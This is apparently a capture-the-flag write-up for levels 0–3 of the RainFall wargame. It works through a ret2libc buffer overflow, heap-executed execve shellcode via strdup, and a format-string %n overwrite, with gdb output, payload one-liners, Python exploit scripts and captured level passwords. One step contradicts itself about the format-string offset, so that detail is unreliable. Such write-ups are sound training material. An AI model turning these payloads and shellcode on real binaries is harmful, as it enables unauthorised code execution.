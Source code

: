 
LEVEL_0:
./level0 423
$ cd ..
$ cd level1
$ cat .pass
1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

LEVEL_1
    - get the system addr:
        level1@RainFall:~$ gdb ./level1
        (gdb) disas system
        Dump of assembler code for function system@plt:
        0x08048360 <+0>:     jmp    *0x80497a0
        0x08048366 <+6>:     push   $0x10
        0x0804836b <+11>:    jmp    0x8048330
        End of assembler dump.
        
    - get the /bin/sh addr : 
        level1@RainFall:~$ gdb ./level1
        (gdb) b main
        Breakpoint 1 at 0x8048483
        (gdb) run
        Starting program: /home/user/level1/level1

        Breakpoint 1, 0x08048483 in main ()
        (gdb) info proc map
        process 4123
        Mapped address spaces:

                Start Addr   End Addr       Size     Offset objfile
                0x8048000  0x8049000     0x1000        0x0 /home/user/level1/level1
                0x8049000  0x804a000     0x1000        0x0 /home/user/level1/level1
                0xb7e2b000 0xb7e2c000     0x1000        0x0
                0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
                0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
                0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
                0xb7fd2000 0xb7fd5000     0x3000        0x0
                0xb7fdb000 0xb7fdd000     0x2000        0x0
                0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
                0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
                0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
                0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
                0xbffdf000 0xc0000000    0x21000        0x0 [stack]
        (gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
        0xb7f8cc58
        1 pattern found.
        (gdb) x/s 0xb7f8cc58
        0xb7f8cc58:      "/bin/sh"
    

system()	        ->    0x08048360	\x60\x83\x04\x08
Fake Return Address	->    "AAAA"
"/bin/sh" string    ->    0xb7f8cc58	\x58\xcc\xf8\xb7

(python -c 'print("A"*76 + "\x60\x83\x04\x08" + "AAAA" + "\x58\xcc\xf8\xb7")' ; cat ) | ./level1

whoami
level2
cd ..
cd level2
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

scp level2@192.168.0.114:/home/user/level2/level2 ./level2

LEVEL_2:
   Exploit the overflow to get a shell. Since return-to-stack is blocked, we execute shellcode from the heap using strdup().
Exploit Strategy
1.Inject shellcode into local_50 buffer.

2.strdup(local_50) copies this shellcode to heap at a predictable address (found via GDB).

3.Overflow RET to point to the heap address returned by strdup().

4.When p() returns → EIP = heap → shellcode executes → /bin/sh spawns.

Why This Works
NX disabled → heap is executable.

ASLR off → heap address is stable (e.g., 0x0804a008).

strdup() gives us a writable+executable space for shellcode.

Check only blocks stack addresses, not heap.

Find heap address after strdup() using GDB:
```
break *0x0804853d
run < <(python exploit.py)
info registers
```
Craft payload:

Shellcode: 25-byte Linux x86 execve("/bin/sh").

Padding to 76 bytes.

Overwrite EBP (4 bytes).

Overwrite RET with heap address.
```
from struct import pack
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    "\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)
heap_addr = 0x0804a008
payload  = shellcode
payload += "A" * (76 - len(shellcode))
payload += "B" * 4
payload += pack("<I", heap_addr)
print(payload)
```
```
(python exploit.py; cat) | ./level2
```
LEVEL_3:
# 📚 Exploiting `level3` – Format String Vulnerability to Overwrite Global Variable

## 🔍 Challenge Summary

The target is a vulnerable binary named `level3` from the RainFall wargame on Linux. Our goal is to:

- Exploit a **format string vulnerability** in `printf()`
- Overwrite a global variable `m` with the value `0x40`
- Satisfy the condition `if (m == 0x40)` to execute `system("/bin/sh")`


## 🔐 Binary Protections

```bash
$ checksec ./level3
RELRO           STACK CANARY      NX            PIE             FILE
No RELRO        No canary found   NX disabled   No PIE          ./level3

$ cat /proc/sys/kernel/randomize_va_space
0
```
```
void v(void) {
  char local_20c[520];
  fgets(local_20c, 0x200, stdin);
  printf(local_20c);  // ⚠️ format string vulnerability
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
}
```
 ## Exploitation Strategy

    Leak stack contents to determine the correct format string offset

    Use %n to write 0x40 to the address of the global variable m

    Trigger the condition and gain a shell

##  Step 1: Find the Address of m

```
(gdb) p &m
$1 = (int *) 0x0804988c
```
## Step 2: Discover Format String Offset

```
for i in $(seq 1 40); do
  python -c "print('AAAA' + ' %%%d\$x' % $i)" | ./level3
done
```
Look for 41414141 in the output. appears at %4$x, that means the offset is 7.
## Step 3: Exploit Script (Python)
```
import struct
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <offset>")
    sys.exit(1)

offset = int(sys.argv[1])

m_addr = struct.pack("<I", 0x0804988c)  # Address of 'm'
target_val = 0x40  # Decimal 64

written = len(m_addr)
padding = target_val - written
if padding < 0:
    padding += 256

fmt = "%%%dx%%%d$n" % (padding, offset)
payload = m_addr + fmt.encode("ascii")

with open("payload.txt", "wb") as f:
    f.write(payload)

print("Wrote payload with offset %d" % offset)

```
## Step 4: Execute the Exploit
```
python exploit.py 4 
(cat payload.txt; cat) | ./level3
Wait what?!
$ whoami
level4
```



